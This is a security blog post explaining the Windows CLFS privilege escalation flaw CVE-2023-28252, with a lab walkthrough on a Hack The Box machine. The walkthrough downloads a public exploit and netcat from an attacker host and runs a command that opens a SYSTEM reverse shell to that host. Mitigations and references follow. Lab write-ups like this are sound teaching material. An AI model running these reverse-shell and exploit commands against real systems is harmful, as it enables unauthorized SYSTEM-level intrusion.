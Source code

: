+++
tags = ["Windows", "Active Directory", "CVE-2023-28252", "CLFS"]
draft = false
title = "Understanding CVE-2023-28252: Deep Dive into the CLFS Privilege Escalation Vulnerability"
author = "bloodstiller"
date = 2024-11-05
+++

## Understanding CVE-2023-28252: A Deep Dive into CLFS Privilege Escalation {#understanding-cve-2023-28252-a-deep-dive-into-clfs-privilege-escalation}

CVE-2023-28252 represents a critical vulnerability in Microsoft's Common Log File System (CLFS) that allows local privilege escalation to SYSTEM.


### What is CLFS? {#what-is-clfs}

The Common Log File System (CLFS) is a logging subsystem introduced in Windows Server 2003 R2. Unlike traditional logging systems, CLFS provides:


#### Component Overview {#component-overview}

```text
CLFS Architecture:
├── Log Container
│   ├── Base Log File (.blf)
│   └── Container Files (.clf)
├── Stream Management
│   ├── Virtual Log Files
│   └── Log Blocks
└── Client Interface
    ├── User Mode API
    └── Kernel Mode API
```


#### Key Features {#key-features}

-   Transactional logging with ACID properties
-   High-performance sequential I/O operations
-   Crash recovery capabilities
-   Structured storage for log records


### Technical Deep Dive {#technical-deep-dive}


#### Vulnerability Details {#vulnerability-details}

The vulnerability exists in the CLFS driver (CLFS.SYS) and involves:

-   Memory allocation issues in the CLFS driver
-   Improper validation of user-controlled input
-   Potential for heap corruption leading to privilege escalation


### Real-World Exploitation Example {#real-world-exploitation-example}

-   This was performed on the hack the box machine Aero:
    -   <https://app.hackthebox.com/machines/Aero>


#### Available Proof of Concept {#available-proof-of-concept}

A pre-compiled exploit is available at:

-   <https://github.com/duck-sec/CVE-2023-28252-Compiled-exe>
-   **Note**: This exploit allows passing another binary as an argument for privileged execution


#### Initial Setup and Exploitation {#initial-setup-and-exploitation}

After discovering the target is vulnerable to CVE-2023-28252, we locate a suitable pre-compiled exploit:

-   <https://github.com/duck-sec/CVE-2023-28252-Compiled-exe>
-   **Note**: This exploit allows us to pass another binary as an argument, which is ideal for obtaining a reverse shell as NT/Authority

-   **Clone the Exploit**:
    ```bash
       git clone https://github.com/duck-sec/CVE-2023-28252-Compiled-exe.git
    ```

-   **Transfer Required Files to Target**:
    First, transfer the exploit:
    ```bash
       wget http://10.10.14.121:9000/exploit.exe -o ex.exe
    ```
    {{< figure src="/ox-hugo/2024-11-04-194403_.png" >}}

    Then, transfer netcat for the reverse shell:
    ```bash
       wget http://10.10.14.121:9000/nc64.exe -o nc64.exe
    ```
    {{< figure src="/ox-hugo/2024-11-04-194156_.png" >}}

-   **Setup Reverse Shell Listener**:
    On the attack machine:
    ```bash
       rlwrap -cAr nc -nvlp 443
    ```
    {{< figure src="/ox-hugo/2024-11-04-194636_.png" >}}

-   **Execute Exploit**:
    Trigger the exploit with netcat as the payload:
    ```bash
       .\ex.exe 1208 1 "C:\Users\sam.emerson\Documents\nc64.exe 10.10.14.121 443 -e cmd"
    ```
    {{< figure src="/ox-hugo/2024-11-04-194705_.png" >}}

-   **Confirm Privilege Escalation**:
    Successfully receive NT/Authority SYSTEM shell:
    - ![](/ox-hugo/2024-11-04-194750_.png)


### Impact Analysis {#impact-analysis}


#### Affected Systems Matrix: {#affected-systems-matrix}

| Windows Version | Architecture | Vulnerable |
|-----------------|--------------|------------|
| Server 2022     | x64          | Yes        |
| Server 2019     | x64          | Yes        |
| Windows 11      | x64          | Yes        |
| Windows 10      | x64          | Yes        |


### Detection and Prevention: {#detection-and-prevention}


#### Mitigation Strategies: {#mitigation-strategies}

1.  **System Updates**:
    -   Apply latest Windows security updates
    -   Enable automatic updates

2.  **Access Controls**:
    -   Implement principle of least privilege
    -   Monitor and restrict access to CLFS-related operations

3.  **System Monitoring**:
    -   Monitor for suspicious CLFS operations
    -   Track privilege escalation attempts


### References: {#references}

1.  [Microsoft Security Advisory](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-28252)
2.  [CVE-2023-28252 Details (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2023-28252)
3.  [Bleeping Computer Analysis](https://www.bleepingcomputer.com/news/security/windows-zero-day-vulnerability-exploited-in-ransomware-attacks/)
4.  [Duck-Sec's POC Repository](https://github.com/duck-sec/CVE-2023-28252-Compiled-exe)
5.  [Rapid7's](https://www.rapid7.com/blog/post/2023/04/11/patch-tuesday-april-2023/)
6.  [For a very deep dive Fortra.com](https://www.coresecurity.com/core-labs/articles/analysis-cve-2023-28252-clfs-vulnerability)
